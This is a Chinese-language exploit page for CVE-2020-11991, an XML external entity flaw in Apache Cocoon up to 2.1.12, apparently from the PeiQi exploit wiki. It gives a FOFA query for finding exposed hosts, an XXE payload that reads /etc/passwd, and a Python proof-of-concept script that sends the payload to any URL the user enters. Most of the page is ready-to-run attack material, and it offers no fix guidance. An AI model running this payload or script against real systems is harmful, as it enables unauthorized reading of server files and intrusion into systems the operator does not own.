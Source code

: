 # Apache Cocoon XML注入 CVE-2020-11991

## 漏洞描述

9月11日 Apache 软件基金会发布安全公告，修复了 Apache Cocoon xml外部实体注入漏洞（CVE-2020-11991）。

Apache Cocoon 是一个基于 Spring 框架的围绕分离理念建立的构架，在这种框架下的所有处理都被预先定义好的处理组件线性连接起来，能够将输入和产生的输出按照流水线顺序处理。用户群：Apache Lenya、Daisy CMS、Hippo CMS、Mindquarry等等，Apache Cocoon 通常被作为一个数据抽取、转换、加载工具或者是系统之间传输数据的中转站。CVE-2020-11991 与 StreamGenerator 有关，在使用 StreamGenerator 时，代码将解析用户提供的 xml。攻击者可以使用包括外部系统实体在内的特制 xml 来访问服务器系统上的任何文件。

## 影响版本

```
Apache Cocoon <= 2.1.12
```

## FOFA

```
app="Apache-Cocoon"
```

## 漏洞复现

向**/v2/api/product/manger/getInfo**  POST如下内容

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<userInfo>
<firstName>John</firstName> 
<lastName>&ent;</lastName>
</userInfo>
```

## 漏洞POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import requests
import base64
import sys


def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Apache Cocoon <= 2.1.12                                  \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2020-11991                                    \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx                                 \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/v2/api/product/manger/getInfo"
    data = """
        <!--?xml version="1.0" ?-->
        <!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
        <userInfo>
        <firstName>John</firstName> 
        <lastName>&ent;</lastName>
        </userInfo>
    """
    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-type": "text/xml"
    }

    response = requests.request("POST", url=vuln_url, data=data, headers=headers, timeout=20)
    if "/bin/bash" in response.text:
        print("\033[32m[o] 含有CVE-2020-11991漏洞，响应为{}\033[0m".format(response.text))
    else:
        print("\033[31m[x] 漏洞利用失败 \033[0m")

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```